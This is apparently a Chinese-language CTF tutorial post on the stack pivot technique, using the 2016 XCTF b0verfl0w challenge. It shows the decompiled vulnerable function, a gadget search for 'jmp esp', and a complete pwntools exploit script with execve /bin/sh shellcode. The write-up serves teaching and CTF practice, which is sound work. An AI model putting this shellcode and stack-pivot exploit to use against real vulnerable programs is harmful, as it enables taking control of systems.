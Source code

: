 ```yaml
---
title: stack privot攻击技术示例
tags: [CTF, pwn, stack]
layout: post
categories: tutorials
---
```



## 什么是stack privot?

stack privot字面意思就是栈劫持，是指劫持栈指针指向攻击者放置有利用代码的空间去，比如指向了攻击者构造好的ROP链。

通常，在以下情况我们会考虑使用stack privot技术进行利用
* 可以控制的栈溢出的字节数较少，难以构造较长的ROP链
* 开启了PIE(Position-Independent Executables)保护，栈地址未知，我们可以将栈劫持到已知的区域。
* 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

如果我们想要劫持栈指针，那么我们所需要的gadget就必须能够控制栈指针，比如`pop sp` `jmp sp` `add sp` `sub sp`之类的gadgets都可能拿来使用。

## 漏洞分析

本节示例的漏洞程序可以从此处下载： [stack_privot](http://od7mpc53s.bkt.clouddn.com/stack_privot)

这是`2016 XCTF Quals-b0verfl0w`, 我们用它来演示这次的stack privot攻击

我们使用IDA反编译，可以看到如下：
``` c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

s的大小为0x20，而总共能写入的字符只有50，再加上ebp，我们能在溢出后实际利用的字节仅仅只有`50-0x20-4=14bytes`，只有这么小的空间，对我们构造攻击代码是十分困难的。我们选择使用stack privot技术，于是来查看一下程序中可以利用的gadgets有哪些

``` bash
➜  stack-privot ROPgadget --binary stack_privot --only 'pop|jmp|ret' | grep 'esp'
0x08048504 : jmp esp
```

那么这样的话，我们就可以借由`jmp esp`将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell

## 攻击代码

``` python
from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504

payload = shellcode
payload += 'A' * (0x24-len(shellcode))
payload += p32(jmp_esp)
payload += sub_esp_jmp

io = process('./stack_privot')
io.recvuntil("What's your name?\n")
io.send(payload)
io.interactive()

```
